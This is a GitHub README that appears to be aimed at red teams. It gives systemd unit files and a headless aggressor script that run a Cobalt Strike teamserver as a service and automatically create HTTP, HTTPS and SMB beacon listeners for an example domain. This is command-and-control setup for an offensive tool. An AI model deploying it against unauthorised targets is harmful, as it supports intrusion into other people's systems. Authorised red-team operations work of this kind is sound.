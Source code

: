 # Running Cobalstrike Teamserver as a Service

These scripts can be used as a template to set up teamserver as a service and autostart listeners.

These scripts have been tested on Ubuntu server, and will need to be adjusted based on your use case.

## Steps

- Update the service files to match your environment.
  - teamserver.service
  - listener.service
  - listener_service.cna
- Copy the service files to your teamserver
  - /etc/systemd/system/teamserver.service
  - /etc/systemd/system/listener.service
  - /etc/cobaltstrike/listener_service.cna
- Register the new services
  - `systemclt daemon-reload`
- Start the services
  - `systemctl start teamserver.service`
  - `systemctl start listener.service`
- Test

## Teamserver Service

Update the settings to match your environment.

- WorkingDirectory: set to the cobaltstrike directory
- ExecStart: Set with your values

```

# teamserver.service
[Unit]
Description=Cobalt Strike Teamserver Service
After=network.target
Wants=network.target

[Service]
Type=Simple
WorkingDirectory=/opt/cobaltstrike
ExecStart=/opt/cobaltstrike/teamserver <TEAMSERVER IP> <PASSWORD> <PATH TO C2 PROFILE>

# Example
# ExecStart=/opt/cobaltstrike/teamserver `hostname -I` thisismypassword /opt/cobaltstrike/c2.profile

[Install]
WantedBy=multi-user.target

```

## Listener Service

Update the settings to match your environment.

- WorkingDirectory: set to the cobaltstrike directory
- ExecStart: Set with your values

```
# listener.service
[Unit]
Description=Cobalt Strike aggressor service
After=teamserver.service network.target
Wants=teamserver.service
StartLimitIntervalSec=33

[Service]
Restart=on-failure
RestartSec=10
WorkingDirectory=/opt/cobaltstrike
ExecStartPre=/bin/sleep 60
ExecStart=/bin/bash /opt/cobaltstrike/agscript 127.0.0.1 50050 <USER to LOGON TO COBALTSTRIKE> <TEAMSERVER PASSWORD> <PATH TO listener_service.cna>

# Example
# ExecStart=/bin/bash /opt/cobaltstrike/agscript 127.0.0.1 50050 listener_service thisismypassword /opt/cobaltstrike/listener_service.cna


[Install]
WantedBy=multi-user.target
```

## Headless aggressor script

This must be updated to reflect your environment. 

This example aggressor script is used to start an HTTP, HTTPS, and SMB listener with all the needed parameters

What to change?

- HTTP Listener
  - Listnername
  - host
  - althost
- HTTPS Listener
  - Listnername
  - host
  - althost
- SMB Listener
  - 


```
println("
###################################################################
 CobaltStrike Aggressor Script          
 Author:      Joe Vest
 Description: Headless script to create listeners
###################################################################");

println('Loading listener_service.cna...');

on ready{
    println('listener_service.cna: Creating HTTP Listener...');
	listener_create_ext("HTTP", "windows/beacon_http/reverse_http", %(host => "iheartredteams.com", port => 80, beacons => "iheartredteams.com", althost => "iheartredteams.com", bindto => 80));

    println('listener_service.cna: Creating HTTPS Listener...');
	listener_create_ext("HTTPS", "windows/beacon_https/reverse_https", %(host => "iheartredteams.com", port => 443, beacons => "iheartredteams.com", althost => "iheartredteams.com", bindto => 443));

    println('listener_service.cna: Creating SMB Listener...');
	listener_create_ext("SMB", "windows/beacon_bind_pipe", %(port => "mojo.5887.8051.34782273429370473##"));
	sleep(10000);
}
```